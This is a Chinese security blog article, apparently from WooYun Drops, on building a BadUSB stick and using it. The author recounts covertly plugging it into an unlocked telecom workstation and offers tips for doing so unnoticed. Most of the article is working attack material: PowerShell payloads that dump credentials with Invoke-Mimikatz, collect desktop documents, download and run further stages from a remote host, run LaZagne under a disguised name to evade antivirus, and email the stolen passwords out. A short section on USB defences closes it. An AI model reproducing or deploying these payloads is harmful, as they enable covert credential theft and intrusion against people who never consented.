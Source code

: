 # BadUsb----结合实例谈此类外设的风险

0x00 前言
=====

大概是从今年年初的时候关注了这一块的话题，3月份买的TOSHIBA的U盘进行的测试，期间一直在完善利用代码，期间收到了一些大牛的启发，感谢Psychson这个项目的开源，DM_在PowerShell方面的文章，以及参考过三好学生，jeary等人的配置，虽然并没有交流，但是读了他们的帖子后实践完善了整个利用过程。这是[BadUsb](https://github.com/adamcaudill/Psychson)的GitHub地址,以及原作者的操作视频（YouTube俄语翻译真心栏...自备梯子）

我在某乙方工作，一次去某省级运营商渗透前的交流时，因为来的早会议室还没有腾出来，在安全室休息时，我所坐的位置的人电脑没有锁屏，但是旁边都是安全室的人，这时候我拿出我的BadUsb，默默的去桌子底下系起了鞋带...

0x01 BadUsb制作
=====

*   首先你需要有一枚2303芯片的U盘，推荐平价的[东芝（TOSHIBA） 速闪系列 U盘 16GB （黑色） USB3.0](http://item.jd.com/929732.html)
*   Psychson项目文件
*   JRE
*   Burner File（BN03V104M.BIN只保证东芝这个U盘可以用）
*   SDCC

[打包下载](http://pan.baidu.com/s/1bniCcEV)，密码: ixgw，包括量产工具，不包含JRE，win7_X64环境的编译好了可以直接用，项目文件夹下有command.txt可以参考，如果你是别的系统版本，请使用vs2012重新编译工具。

**PS：建议就刷我的final.txt修改脚本地址即可，这样不会存在需要重新刷短接芯片的情况，所有操作只需要修改服务器端的脚本即可。如果你已经刷坏，请先在不插电脑时短接住芯片上圆点斜对面的最外两个针脚，然后启动MPALL_F2_v363_0D.exe，用QC.ini，插到usb2.0口，Update几次没有的话说明你短接手法不好，ok了点start刷一下就恢复U盘了，再重头来**

0x02 BadUsb效果
=====

目前的效果是只需要5秒钟之内，可过某pc装机量5亿的杀软，电脑闪一下屏幕就可以拔下U盘了，剩下的交给后台的PowerShell进程，实现的功能有获取电脑的基本信息，Invoke-mimikatz抓密码，桌面截屏，集成[LaZagne](https://github.com/AlessandroZ/LaZagne)获取系统存储的密码，递归获取桌面所有txt doc类 xls类文件，最终打成压缩包，可通过邮箱或者ftp发送，实战中建议使用ftp发送**ps:因为有人桌面的文档打包出来近GB...**

看我拿本机测试能得到什么

视频密码 HappyTime

![badusb1](http://drops.javaweb.org/uploads/images/1a89902ae6c56b431883ffda8666420fabc41f74.jpg)

![badusb2](http://drops.javaweb.org/uploads/images/4af71ed00dff775e895344f63919756c4ffa5f3b.jpg)

![tree](http://drops.javaweb.org/uploads/images/71c8e0b8322f9d6b35020c53e431081d4894fe2d.jpg)

![doc](http://drops.javaweb.org/uploads/images/319f5fe43d5a7fcb9a9ef46a72e471dea4ef526b.jpg)

![screen](http://drops.javaweb.org/uploads/images/b2e9ca0d104c5e16138cd59beafb5a5d44ffbef0.jpg)

![info](http://drops.javaweb.org/uploads/images/47a4e822f3c85bd609512066beddc2f88d2a0d64.jpg)

![Pass1](http://drops.javaweb.org/uploads/images/a6e03e73fad72a9bba40f87b539e04d270e87ba5.jpg)

![Pass2](http://drops.javaweb.org/uploads/images/e69531d71a49ce895a50979e5ee226a1b18acf93.jpg)

0x03 BadUsb实战
=====

基本上从视频来看 算上装驱动大概需要10秒时间，实际执行Payload大概是5秒，所以只需要给你5秒，5秒你到底能做到什么?

**友情提醒**

1.  系鞋带动作要自然
2.  速度要快
3.  有小伙伴掩护那是再好不过的

看看我们能得到什么

![doc2](http://drops.javaweb.org/uploads/images/a571f67361b752d8dbb7e683a9f83f5ea416ba84.jpg)

![secret](http://drops.javaweb.org/uploads/images/31e7f4d3246bccd5076e98deee0cfd49b7406517.jpg)

这个数据量有多恐怖，这只是一个安全室普通员工电脑桌面的信息，在后来对这些信息详细分析后发现了堡垒机跳板机的登录密码，以及堡垒机最高权限的账户，至此，该省所有设备都在控制之中，包括短彩信，智能网，长途网，话务网，以及基础设施，都收入囊中。

![login](http://drops.javaweb.org/uploads/images/2e1a33bf01a0afa09c2f4b7dd1af8f06c78e4312.jpg)

![som](http://drops.javaweb.org/uploads/images/c97b759bef43a42963c984c7597672b6236c740c.jpg)

![som2](http://drops.javaweb.org/uploads/images/7d93eab7f58100427e0c594fc6eb80916b7ec6bb.jpg)

![email](http://drops.javaweb.org/uploads/images/7c48792747446239598dd3253213af1d32237895.jpg)

抱歉因为客户原因，无法透露过多细节，读者可当是概念证明，毕竟威胁真实存在。

0x04 BadUsb-Exp
=====

再次感谢Invoke-Mimikatz作者，感谢DM_，代码为拼接修改而来，照惯例留坑，防伸手党，勿怪 首先，仅通过BadUsb下载一个powershell脚本，其中在调用IEX继续下载新的PowerShell，这样设计是为了先拿到一份LaZagne获取的密码，因为有些人的桌面文档表格太大了，需要等待很久，避免夜长梦多所为。

```
...
...#Invoke-Mimikatz
$folderDateTime = (get-date).ToString('d-M-y HHmmss')
$userDir = (Get-ChildItem env:\userprofile).value + '\Report ' + $folderDateTime
$fileSaveDir = New-Item  ($userDir) -ItemType Directory
Invoke-Mimikatz -Dumpcreds >> $fileSaveDir'/DumpPass.txt'
$copyDir = (Get-ChildItem env:\userprofile).value + '\Desktop'
$copyToDir = New-Item $fileSaveDir'\Doc' -ItemType Directory
Dir -filter *.txt -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.doc -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.docx -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.xls -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
Dir -filter *.xlsx -recurse $copyDir | ForEach-Object {Copy-Item $_.FullName $copyToDir}
IEX (New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx/GetPass.ps1');

```

GetPass.ps1

```
(new-object System.Net.WebClient).DownloadFile('http://x.x.x.x/GetPass.rar','D:\Get.exe');
(new-object System.Net.WebClient).DownloadFile('http://x.x.x.x/Command.rar','D:\Command.bat');
D:\Command.bat;
$SMTPServer = 'smtp.qq.com'
$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
$SMTPInfo.EnableSsl = $true
$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('username', 'password');
$ReportEmail = New-Object System.Net.Mail.MailMessage
$ReportEmail.From = 'email-address'
$ReportEmail.To.Add('To-address')
$ReportEmail.Subject = 'GetPass'
$ReportEmail.Body = 'Passwords In Applications' 
$ReportEmail.Attachments.Add('D:\GetPass.txt')
$SMTPInfo.Send($ReportEmail)
remove-item 'D:\GetPass.txt'
remove-item 'D:\Get.exe'

```

其中的GetPass.rar实为LaZagne，直接下载exe会被大部分杀软拦截，所以使用重命名功能，之所以调用了一个批处理，是因为LaZagne的获取Windows密码模块（非sysadmin模块）注入Lsass进程是会被杀软拦截，所以(D:\Get.exe sysadmin & D:\Get.exe svn & D:\Get.exe database & D:\Get.exe browsers & D:\Get.exe wifi & D:\Get.exe mails) > D:\GetPass.txt 笨方法绕过杀软。

好现在是揭晓坑的时候了- -，破坏了这个脚本删除生成文件的地方~你们插完别人的电脑，这些临时文件就会一直在那里躺着~包括这些密码压缩包喔~

0x05 Sec-Usb？
=====

既然明白了风险存在，如何防护呢？

Know it，then protect it.

首先看一种暴力的[德国LINDY USB电脑锁 电子信息资料防护加密防盗防窃取](https://item.taobao.com/item.htm?spm=a230r.1.14.11.kKxDoZ&id=35528606576&ns=1&abbucket=19#detail)直接锁死u口，可能适合跳板机，开发机使用，但是个人机器不现实。

再有就是类似sec-usb这种充电线了，断掉usb传输的两个data线，只保留power,这样就只能充电了，某厂商有这种商品，很贵呦~

链接: http://pan.baidu.com/s/1c09E7PQ 密码: 9b6p

0xFF 版权声明
=====

本文独家首发于乌云知识库(drops.wooyun.org)。本文并没有对任何单位和个人授权转载。如本文被转载，一定是属于未经授权转载，属于严重的侵犯知识产权，本单位将追究法律责任。